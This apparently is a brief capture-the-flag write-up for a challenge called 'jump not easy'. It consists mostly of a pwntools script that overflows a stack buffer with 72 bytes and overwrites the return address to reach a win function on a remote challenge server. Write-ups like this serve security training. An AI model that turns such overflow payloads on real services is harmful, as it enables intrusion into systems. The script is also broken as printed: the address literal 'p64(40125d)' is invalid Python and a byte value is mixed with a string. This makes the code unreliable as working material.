 ## jump not easy

basic overflow + jump to win function

```python

from pwn import *

p = remote("chals5.umdctf.io", 7003)
payload = "A" * 72
payload += p64(40125d)
 
p.sendline(payload)
p.interactive()
```
